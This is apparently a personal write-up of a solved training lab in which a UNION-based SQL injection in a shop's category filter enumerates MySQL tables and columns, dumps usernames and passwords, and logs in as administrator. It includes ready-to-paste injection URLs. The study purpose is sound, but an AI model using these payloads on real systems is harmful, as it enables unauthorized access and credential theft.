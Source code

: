 # SQL Injection – MySQL Enumeration to Admin Login (UNION-based)

A concise write-up using **my original steps** (verbatim) with small, accurate notes and payload blocks.

---

## 🥅 Goal
**Sign in as the administrator** by enumerating tables/columns and extracting credentials via UNION-based SQLi.

---

## ✅ My Exact Steps (Verbatim)

1. **GOAL: sign in as the administrator**

2. **exploring parameters options**

3. **finding that this url param is vulnerable: `/filter?category=Food+%26+Drink'` -> returns 500**

4. **fixing the issue: `/filter?category=Food+%26+Drink'--;`**

5. **It's time to explore how sql even works? how do we understand what tables even exist?**

6. **Download mysql or any similar db (i downloaded xampp) -> lets make some research.**

7. **we found this query wil fetch us results of tables: `/filter?category='+UNION+SELECT+DISTINCT+NULL,table_name+FROM+information_schema.tables+--;`**

8. **our sus table is: `users_ywjavh`**

9. **lets do some research how to fetch columns..**

10. **this is our query: `SELECT column_name FROM information_schema.columns WHERE table_schema = 'bank';`**

11. **but we dont know the schema name, we only have the table name, lets change that**

12. **`SELECT column_name FROM information_schema.columns WHERE table_name = 'id';` -> looks perfect.**

13. **lets use it on our case `'+UNION+SELECT+DISTINCT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name='users_ywjavh'+--;`**

14. **we got two interasting columns: `username_ostvri, password_jvaekv`**

15. **final query: `'+UNION+SELECT+DISTINCT+username_ostvri,password_jvaekv+FROM+users_ywjavh+--;`**

16. **Sign in with creds**

17. **Lab solved.**

---

## 🧠 Minimal Additions (Why / Corrections)

- **UNION rules (MySQL):** The injected `UNION SELECT` must match the **number of columns** (and compatible types) of the original query. Step 7 uses two columns: a **filler** (`NULL`) and the **name to display** (`table_name`). Good.
- **Information schema:**  
  - Tables: `information_schema.tables (table_schema, table_name, ...)`  
  - Columns: `information_schema.columns (table_schema, table_name, column_name, ...)`
  The `WHERE table_name = 'id'` predicate would list columns only for a table **named `id`**, which is likely not intended.
- **Commenting remainder:** In MySQL, `--` is a single-line comment when followed by whitespace. Using `--+` ensures the whitespace (since `+` decodes to space). Alternatives: `#` or `/* ... */`.
- **URL encoding notes:**  
  - `+` = space in query strings.  
  - `%26` is the encoded `&` in `Food+%26+Drink`.  
  - Prefer `%20` for explicit spaces in raw bodies if needed.

---

## 🔧 Payloads I Used (Copy/Paste)

**Discovery & Fix:**
```txt
/filter?category=Food+%26+Drink'
/filter?category=Food+%26+Drink'--+
```

**List tables (two-column UNION):**
```txt
/filter?category='+UNION+SELECT+DISTINCT+NULL,table_name+FROM+information_schema.tables--+
```

**List columns for target table:**
```txt
/filter?category='+UNION+SELECT+DISTINCT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name='users_ywjavh'+--+
```

**Dump creds from target table (adjust column order if needed):**
```txt
/filter?category='+UNION+SELECT+DISTINCT+username_ostvri,password_jvaekv+FROM+users_ywjavh--+
```

> If the app renders the **second column**, flip positions (e.g., `password,username`). Keep the column **count** constant.

---

## 🏁 Result
- Enumerated tables and columns, extracted credentials from the suspected users table, and **signed in as admin**. **Lab Solved. ✅**
